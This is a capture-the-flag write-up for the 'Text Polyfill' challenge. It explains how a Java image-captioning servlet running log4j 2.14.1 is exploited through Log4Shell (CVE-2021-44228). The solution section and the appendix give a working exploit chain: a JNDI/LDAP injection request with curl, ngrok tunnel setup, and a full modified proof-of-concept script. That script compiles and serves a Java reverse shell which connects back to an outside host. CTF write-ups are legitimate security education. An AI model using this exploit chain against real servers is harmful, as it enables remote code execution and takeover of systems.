



# 🧑‍🎨 Text Polyfill (Score: 320 / Solves: 18)

## Description

> We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!
>
> <https://text-polyfill-982935551e3a.1753ctf.com/>
>
> <https://dl.1753ctf.com/text-polyfill/?s=DxzafMfy>

## Source Code

<details><summary>file tree</summary>

```console
$ unzip -d text-polyfill -q text-polyfill_.zip; text-polyfill

$ tree .
.
├── Dockerfile
├── pom.xml
└── src
    ├── main
    │   └── java
    │       └── com
    │           └── ctf
    │               └── ImageTextServer.java
    └── root
        ├── index.html
        └── logo.png

7 directories, 5 files
```

</details>

<details><summary>pom.xml</summary>

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>com.ctf</groupId>
<artifactId>webapp</artifactId>
<version>1.0</version>
<packaging>war</packaging>
   <dependencies>
       <dependency>
           <groupId>javax.servlet</groupId>
           <artifactId>javax.servlet-api</artifactId>
           <version>4.0.1</version>
           <scope>provided</scope> 
       </dependency>
       <dependency>
           <groupId>org.apache.logging.log4j</groupId>
           <artifactId>log4j-core</artifactId>
           <version>2.14.1</version>
       </dependency>
       <dependency>
           <groupId>org.apache.logging.log4j</groupId>
           <artifactId>log4j-api</artifactId>
           <version>2.14.1</version>
       </dependency>
   </dependencies>
   <build>
    <resources>
        <resource>
            <directory>src/root</directory>
            <targetPath>../../</targetPath>
        </resource>
    </resources>
   </build>
</project>
```

</details>

<details><summary>ImageTextServer.java</summary>

```java
package com.ctf;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import javax.imageio.ImageIO;
import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.Part;
import java.awt.*;
import java.awt.image.BufferedImage;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.util.UUID;

@WebServlet("/")
@MultipartConfig
public class ImageTextServer extends HttpServlet {

    private static Logger logger;
    private static String flag;

    public ImageTextServer() {
        logger = LogManager.getLogger(ImageTextServer.class.getName());
        flag = System.getenv("flag");
    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {

        if (request.getRequestURI().equals("/")) {
            response.setContentType("text/html");
            File file = new File("index.html");
            response.setStatus(HttpServletResponse.SC_OK);
            Files.copy(file.toPath(), response.getOutputStream());
        } else if (request.getRequestURI().equals("/logo.png")) {
            response.setContentType("text/html");
            File file = new File("logo.png");
            response.setStatus(HttpServletResponse.SC_OK);
            Files.copy(file.toPath(), response.getOutputStream());
        } else {
            response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        }

    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        if (request.getRequestURI().equals("/process")) {
            Part filePart = request.getPart("image");
            String text = request.getParameter("text");
            try (InputStream fileContent = filePart.getInputStream()) {
                String filename = "/tmp/" + UUID.randomUUID().toString() + ".jpg";

                FileOutputStream fos = new FileOutputStream(filename);
                byte[] buffer = new byte[1024];
                int length;
                while ((length = fileContent.read(buffer)) > 0) {
                    fos.write(buffer, 0, length);
                }
                fos.close();

                File file = new File(filename);

                BufferedImage image = ImageIO.read(file);
                if (image == null) {
                    throw new IOException("Failed to decode image.");
                }
                Graphics graphics = image.getGraphics();
                graphics.setFont(new Font("Arial", Font.BOLD, 30));
                graphics.setColor(Color.BLACK);
                graphics.drawString(text, 10, image.getHeight() - 10);
                graphics.dispose();

                response.setContentType("image/png");
                ImageIO.write(image, "PNG", response.getOutputStream());
            } catch (IOException e) {
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            } catch (Exception e) {
                logger.error("Error processing image with text: " + text);
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            }
        } else {
            response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        }
    }
}
```

</details>

## Flag

1753c{generate_text_to_get_an_epic_rce}

## Summary

- RCE Log4Shell CVE-2021-44228
- To throw exception and execute `logger.error("..." + text);`, remove boundary chars

## Initial Analysis

ImageTextServer.java

```java
@WebServlet("/")
@MultipartConfig
public class ImageTextServer extends HttpServlet {

    private static Logger logger;
    private static String flag;

    public ImageTextServer() {
        logger = LogManager.getLogger(ImageTextServer.class.getName());
        flag = System.getenv("flag");
    }
```

It seems the flag is stored in an environment variable.

pom.xml

```xml
       <dependency>
           <groupId>org.apache.logging.log4j</groupId>
           <artifactId>log4j-core</artifactId>
           <version>2.14.1</version>
       </dependency>
```

[Maven Repository: org.apache.logging.log4j » log4j-core » 2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1)

> 

This application uses Apache Log4j Core 2.14.1, which is vulnerable to [CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228), Log4Shell.

ImageTextServer.java

```java
    protected void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
        if (request.getRequestURI().equals("/process")) {
            Part filePart = request.getPart("image");
            String text = request.getParameter("text");
            try (InputStream fileContent = filePart.getInputStream()) {
                String filename = "/tmp/" + UUID.randomUUID().toString() + ".jpg";

                FileOutputStream fos = new FileOutputStream(filename);
                byte[] buffer = new byte[1024];
                int length;
                while ((length = fileContent.read(buffer)) > 0) {
                    fos.write(buffer, 0, length);
                }
                fos.close();

                File file = new File(filename);

                BufferedImage image = ImageIO.read(file);
                if (image == null) {
                    throw new IOException("Failed to decode image.");
                }
                Graphics graphics = image.getGraphics();
                graphics.setFont(new Font("Arial", Font.BOLD, 30));
                graphics.setColor(Color.BLACK);
                graphics.drawString(text, 10, image.getHeight() - 10);
                graphics.dispose();

                response.setContentType("image/png");
                ImageIO.write(image, "PNG", response.getOutputStream());
            } catch (IOException e) {
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            } catch (Exception e) {
                logger.error("Error processing image with text: " + text);  // vulnerable!
                response.setStatus(HttpServletResponse.SC_INTERNAL_SERVER_ERROR);
            }
```

When an Exception other than IOException is thrown, `logger.error` is called, and user-controllable text is passed as an argument.
Through trial and error, I discovered that by removing one or more characters after `name="text"` in the request body's boundary, an Exception is thrown upon execution of the request.

I used [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main) for Exploit Code.
Due to the use of Ngrok, several changes were made to the code.

## Solution

1. Ngrok
    - ngrok.yml

      ```yaml
      version: "2"
      authtoken: <your token>
      tunnels:
        web:
          proto: tcp
          addr: 8000
        ldap:
          proto: tcp
          addr: 1389
        revshell:
          proto: tcp
          addr: 8888
      ```

    - start Ngrok

      ```bash
      ngrok start --config ngrok.yml --all
      ```

1. PoC

    ```bash
    git clone --quiet https://github.com/kozmer/log4j-shell-poc.git; cd log4j-shell-poc
    # download jdk-8u20-linux-x64.tar.gz and extract
    vi poc.py  # modify (see below Appendix)
    python3 poc.py  # start
    ```

1. Generate image

    ```bash
    convert -size 1x1 xc:white test.png
    ```

1. Send a request to capture Burp Proxy

    ```bash
    curl -k https://text-polyfill-982935551e3a.1753ctf.com/process \
        -F $'text=${jndi:ldap://0.tcp.jp.ngrok.io:13565/a}' -F image=@test.png \
        --proxy http://127.0.0.1:8080
    ```

1. Send the request captured by Burp Proxy to Burp Repeater
1. Remove one or more character from the Content-Type boundary and send the request

    

1. Got shell!

    

## References

- [CVE Record \| CVE](https://www.cve.org/CVERecord?id=CVE-2021-44228)
- [Log4Shell - Wikipedia](https://en.wikipedia.org/wiki/Log4Shell)
- [kozmer/log4j-shell-poc: A Proof-Of-Concept for the CVE-2021-44228 vulnerability.](https://github.com/kozmer/log4j-shell-poc/tree/main)

## Appendix

<details><summary>Modified PoC</summary>

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


LDAP_PORT = 1389
WEB_PORT = 8000

# change this according to your Ngrok's listen host and port
NGROK_HOST = "0.tcp.jp.ngrok.io"
LDAP_NGROK_PORT = 13565
WEB_NGROK_PORT = 13519
REVSHELL_NGROK_PORT = 12766


def generate_payload() -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (
        NGROK_HOST,
        REVSHELL_NGROK_PORT,
    )

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f"[-] Something went wrong {e}")
        raise e
    else:
        print(Fore.GREEN + "[+] Exploit java class created success")


def payload() -> None:
    generate_payload()

    print(Fore.GREEN + "[+] Setting up LDAP server\n")

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server)
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver http://0.0.0.0:{WEB_PORT}")
    httpd = HTTPServer(("0.0.0.0", WEB_PORT), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call(
        [
            os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
            "-version",
        ],
        stderr=subprocess.DEVNULL,
        stdout=subprocess.DEVNULL,
    )
    return exit_code == 0


def ldap_server() -> None:
    sendme = "${jndi:ldap://%s:%s/a}" % (NGROK_HOST, LDAP_NGROK_PORT)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(NGROK_HOST, WEB_NGROK_PORT)
    subprocess.run(
        [
            os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
            "-cp",
            os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
            "marshalsec.jndi.LDAPRefServer",
            url,
        ]
    )


def main() -> None:
    init(autoreset=True)
    print(
        Fore.BLUE
        + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
"""
    )

    try:
        if not check_java():
            print(Fore.RED + "[-] Java is not installed inside the repository")
            raise SystemExit(1)
        payload()
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

</details>
